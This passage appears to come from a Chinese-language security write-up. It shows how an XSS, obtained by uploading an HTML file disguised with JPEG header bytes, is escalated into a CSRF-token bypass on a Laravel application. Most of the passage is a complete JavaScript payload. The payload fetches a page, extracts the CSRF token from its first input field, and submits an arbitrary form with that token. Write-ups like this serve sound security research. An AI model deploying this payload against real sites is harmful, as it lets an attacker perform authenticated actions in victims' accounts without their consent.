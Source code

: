 现在我们上传这个文件并测试它:

![](img/9a28d7e60e1c525a59b4b98334324bc0.png)

## 升级漏洞:

既然我们获得了 xss，我们需要一个漏洞来绕过 CSRF 令牌，

我们需要做的就是发送 AJAX 请求到一个在 html 主体页面中包含 CSRF 令牌的网页，提取令牌，并使用它来提交我们想要的任何表单:

```
ÿØÿà<html>
<head>
<title>Laravel Csrf Bypass</title>
</head>
<body>
<script>
function submitFormWithTokenJS(token) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", POST_URL, true);// Send the proper header information along with the request
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");// This is for debugging and can be removed
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            console.log(xhr.responseText);
        }
    }
 //
    xhr.send("_token=" + token + "&desiredParameter=desiredValue");
}function getTokenJS() {
    var xhr = new XMLHttpRequest();
    // This tels it to return it as a HTML document
    xhr.responseType = "document";
    // true on the end of here makes the call asynchronous
 //Edit the path as you want
    xhr.open("GET", "/image-upload", true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            // Get the document from the response
            page = xhr.response
            // Get the input element
            input = page.getElementsByTagName("input")[0];
            // Show the token
            alert("The token is: " + input.value);
            // Use the token to submit the form
            submitFormWithTokenJS(input.value);
        }
    };
    // Make the request
    xhr.send(null);
}
getTokenJS();var POST_URL="/"
getTokenJS();</script>
```